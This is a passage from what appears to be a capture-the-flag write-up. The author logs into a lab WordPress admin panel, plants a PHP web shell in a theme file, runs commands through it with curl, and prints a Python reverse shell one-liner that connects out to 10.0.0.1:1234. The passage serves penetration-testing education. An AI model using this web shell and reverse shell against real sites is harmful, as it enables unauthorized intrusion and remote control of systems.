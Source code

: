 ### RCE to reverse shell

It's time for me to log on the WordPress administration panel:

|username|password|
|--------|--------|
|eddiethehead|eddiethehead123|

<center>
![](/img/infosec_stuff/odie_gs/red_12.png)
</center>

It works like a charm! Now it's time to execute commands directly on the Linux host. To do that, I just have to edit or upload a PHP page. Nowadays, it's possible to edit the current CMS theme through the web view.

> Appearences > Themes > Editor

On the right panel, we can see the "inc" folder, inside it, there are some PHP files such as `customizer.php`. I will inject arbitrary PHP code in this page:

<center>
![](/img/infosec_stuff/odie_gs/red_13.png)
</center>

This little PHP line will runs the data sent through the "x" GET parameter. Here is an example:

```bash
host $ curl "http://192.168.122.147/wp-content/themes/rock-band/inc/customizer.php?x=id"                                  
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Perfect, it's time to execute a reverse shell. The standard method (using `netcat`) is no longer available since the "-e" argument has been removed. The `/dev/tcp/IP/PORT` trick is not always possible too.

But there are a lot of possibilities to runs a reverse shell, it works with PHP or Python for example. I will not modify the PHP pages any further, in order to avoid damaging the integrity of the site.

```bash
host $ curl "http://192.168.122.147/wp-content/themes/rock-band/inc/customizer.php?x=which%20nc"
-> No netcat

host $ curl "http://192.168.122.147/wp-content/themes/rock-band/inc/customizer.php?x=which%20python"
/usr/bin/python
```

Python is present on the remote target, nice. Let's go get the payload on pentestmonkey:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
